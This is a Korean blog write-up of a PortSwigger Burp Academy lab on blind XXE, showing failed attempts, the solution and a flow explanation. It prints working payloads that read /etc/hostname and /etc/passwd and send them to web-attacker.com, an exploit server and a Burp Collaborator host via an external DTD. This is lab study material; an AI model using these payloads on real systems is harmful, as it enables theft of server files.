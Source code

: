 ```yaml
---
layout: post
title: "Burp Academy 문제풀이 - Exploiting blind XXE to exfiltrate data using a malicious external DTD"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XXE]
toc: true
---
```


# 개요
- Blind XXE 문제인데 XML의 파라메터 엔터티(Parameter Entity)를 통해 out-of-band 통신을 발생시키는 예제로 보인다. 
- 문제 주소: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration
- 블라인드 XXE 설명 주소: https://portswigger.net/web-security/xxe/blind
- 난이도: PRACTITIONER (중간)

# 문제분석
- 이전 문제들과 마찬가지로 "Check stock" 기능을 통해 XML 을 삽입할 수 있다. 
- `/etc/hostname` 파일의 내용을 얻어내면 된다. 
- 내용을 HTTP 응답으로 직접확인할 수는 없다. Blind XXE를 응용해야 한다. 
```
This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file.

Note
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use the provided exploit server and/or Burp Collaborator's default public server.
```


# 준비
## exploit server
이 문제부터는 exploit server 가 등장한다. 다음과 같이 특정 경로 요청에 대해 어떤 응답을 보낼지를 설정할 수 있다. 

![exploit server](/images/burp-academy-exploit-servser.png)


# 1차 시도 
우선 Parameter 엔터티로 `/etc/hostname` 을 접근할 수 있는지 확인해본다. 
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<stockCheck>
	<productId>%file;</productId>
	<storeId>1</storeId>
</stockCheck>
```

안된다. XML 파싱에러가 발생했다. 

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 19

"XML parsing error"
```

## 2차 시도 
[XXE 설명 페이지](https://portswigger.net/web-security/xxe/blind){:target="_blank"}를 보면 다음 페이로드가 소개되어 있다. 

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

- `&#x25;` 는 HTML 디코드하면 `%` 이다. 
- /etc/passwd의 내용을 file 이라는 이름의 파라메터 엔터티에 저장해둔다. 
- eval이라는 이름의 파라메터 엔터티에 다이내믹 선언한 exfiltrate 라는 파라메터 엔터티의 값을 저장해둔다. 
- exfiltrate 엔터티는 HTTP 요청을 공격자의 웹 서버에 file 엔터티의 내용을 URL 쿼리 스트링으로 함께 보낸다. 

이 것을 다음과 같이 바꿔서 보냈다. 

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://exploit-0ae8003e0426eb73c02fa82501bd002e.exploit-server.net/?x=%file;'>">
%eval;
%exfiltrate;
```

보안 이유 때문에 Entity 는 사용할 수 없다는 응답이 돌아왔다. 

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 47

"Entities are not allowed for security reasons"
```

## 3차 시도 
여기서 부터는 잘 모르겠다. 정답을 봤다. 

# 해답
## Burp Collaborator URL을 취득
이 문제를 풀려면 Burp Collaborator와 통신이 가능한 Burp Suite Professional 버전이 필요하다. 

- STEP 1. Burp Suite Professional에서 Burp Collaborator 탭으로 이동한다. 
- STEP 2. "Copy to clipboard" 를 이용해 유니크한 Burp Collaborator 페이로드를 복사해둔다. 

![Burp Collaborator 페이로드 복사](/images/burp-academy-xxe-5-1.png)


## DTD 를 만들고 exploit서버에 저장 
- STEP 3. 다음 DTD 파일의 BURP-COLLABORATOR-SUBDOMAIN 을 복사한 페이로드로 바꾼다. 

```xml 
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```

예를 들어, 내 경우에는 다음과 같이 되었다. 
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://n8wqd73kghte5rc9tqfr8wq0frli98xx.oastify.com/?x=%file;'>">
%eval;
%exfil;
```

- STEP 4. exploit server 로 이동해서 위의 DTD 파일을 응답 Body 부분에 저장한다. 

## 공격 페이로드를 변경 

- STEP 5. 유저가  "Check stock" 버튼을 눌렀을 때의 POST 요청 바디 부분을 다음과 같이 바꾼다. 

```xml 
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

내 경우에는 다음과 같이 된다. 

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a5200f2036c3c94c2e7ba5c01230041.exploit-server.net/exploit"> %xxe;]>
```

## 공격 시도 
이 페이로드를  "Check stock" 버튼을 눌렀을 때의 POST 요청 바디로 전송한다. 400 Bad Request 응답이 돌아온다. 

![페이로드 전송](/images/burp-academy-xxe-5-2.png)


- STEP 6. Burp Suite Professional에서 Burp Collaborator 탭에서 "Poll now" 를 클릭한다. 
- STEP 7. 조금 기다리면 Burp Collaborator 서버로 통신한 DNS와 HTTP 통신이력이 보인다. HTTP 통신에 /ect/hostname 파일의 내용이 보인다. 

![Burp Collaborator 서버 통신](/images/burp-academy-xxe-5-3.png)

이 것을 정답제출 버튼을 누르고 제출하면 다음과 같이 풀이에 성공했다는 팝업이 나타난다. 

![풀이성공](/images/burp-academy-xxe-5-4.png)

# 구성도 
과정이 복잡해졌기 때문에 이해하기 어렵다. 이해를 위해 구성도를 그려보고 과정을 다시 한번 정리해보자. 

![구성도](/images/burp-academy-xxe-5-diagram.png)

- EC Site 에는 XXE취약점이 있지만 XXE의 결과가 응답페이지에 표시되지 않는다. 
- 공격자는 악의적인 DTD를 제공하는 서버를 구축한다. (hacker DTD Server)
- 이 DTD는 /etc/hostname 의 정보를 HTTP URL파라메터에 지정해 특정 서버로 요청하라는 지시를 담고 있다. 
- 위의 과정에서 특정서버는 Burp Collaborator서버를 사용했다. (Burp Collaborator서버를 사용하면 특정 경로로 특정 요청이 온 것을 확인하기 용이하다.)
- 유저(공격자)가 POST 요청으로 XXE 페이로드를 전달한다. 
- EC Site는 XXE 페이로드를 해석하는 과정에서 Burp Collaborator서버로 중요정보를 포함한 HTTP 요청을 보낸다. 
- 공격자는 Burp Collaborator서버에 문의해서 어떤 요청이 들어왔는지를 확인할 수 있다. 이 요청의 파라메터를 확인하는 것으로 중요정보를 입수할 수 있다. 